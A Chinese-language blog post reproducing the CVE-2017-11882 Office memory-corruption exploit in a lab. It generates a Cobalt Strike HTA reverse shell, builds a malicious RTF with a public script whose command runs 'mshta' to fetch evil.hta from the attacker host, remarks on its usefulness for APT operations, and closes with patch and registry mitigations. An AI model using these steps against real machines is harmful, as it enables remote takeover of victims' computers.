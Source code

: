 原文: [CVE-2017-11882漏洞复现](https://github.com/Rvn0xsy/rvn0xsy.github.io/blob/4376bfbb7892ce2f18e5d969548f4483d17e1f95/_posts/2017-11-21-cve-201711882.md)

---

本文记录一下针对CVE-2017-11882的漏洞复现
<!--more-->
## 0x00 前言

参考backlion师傅的PDF，记录一下这个过程。

2017年11月14日，微软发布了11月份的安全补丁更新，其中比较引人关注的莫过于悄然修复了潜伏17年之久的Office远程代码执行漏洞（CVE-2017-11882）。该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本。攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。
由于漏洞影响面较广，漏洞披露后，金睛安全研究团队持续对漏洞相关攻击事件进行关注。11月19日，监控到了已有漏洞POC在网上流传，随即迅速对相关样本进行了分析。目前该样本全球仅微软杀毒可以检测。

* 漏洞影响版本：
* Office 365
* Microsoft Office 2000      
* Microsoft Office 2003      
* Microsoft Office 2007 Service Pack 3
* Microsoft Office 2010 Service Pack 2
* Microsoft Office 2013 Service Pack 1
* Microsoft Office 2016

## 0x01 环境清单

* WindowsServer 2008 (192.168.3.114)
* Office 2007
* MAC OSX(192.168.3.106)

## 0X02 复现过程

### 使用Cobalt Strike生成hta反弹shell

![生成](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-21/2017-11-21-0x00.png)

将生成的hta文档放入WebServer根目录：http://192.168.3.106/evil.hta

我(Cobalt Strike)本地监听了一个8081端口，用来接收客户端的Shell


### 生成一个rtf/doc文档

github上已有生成脚本

`webdav_exec_CVE-2017-11882.py` 地址： http://payloads.online/tools/cve-2017-11882/webdav_exec_CVE-2017-11882.py

生成rtf文档：

```
python webdav_exec_CVE-2017-11882.py -u http://192.168.3.106/evil.hta -e "mshta http://192.168.3.106/evil.hta" -o test.rtf
!!! Completed !!!
```

最后将test.rtf在目标机器上执行 `=_=||`，其实可以实战的，对于APT的帮助很大

### 结果

目标机器上执行后，我们可以在Cobalt Strike看到来自客户端的会话

![shell](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-21/2017-11-21-0x01.png)


## 0x03 修复建议

1、微软已经对此漏洞做出了修复。

* 下载`https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882`  更新补丁进行修补
*  开启Windows Update功能，定期对系统进行自动更新

2、由于该公式编辑器已经17年未做更新，可能存在大量安全漏洞，建议在注册表中取消该模块的注册。

* 按下Win R组合键，打开cmd.exe
* 输入以下两条命令：
`reg add  “HKLM\SOFTWARE\Microsoft\Office\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046} ” /v “Compatibility  Flags”  /t  REG_DWORD /d    0x400`


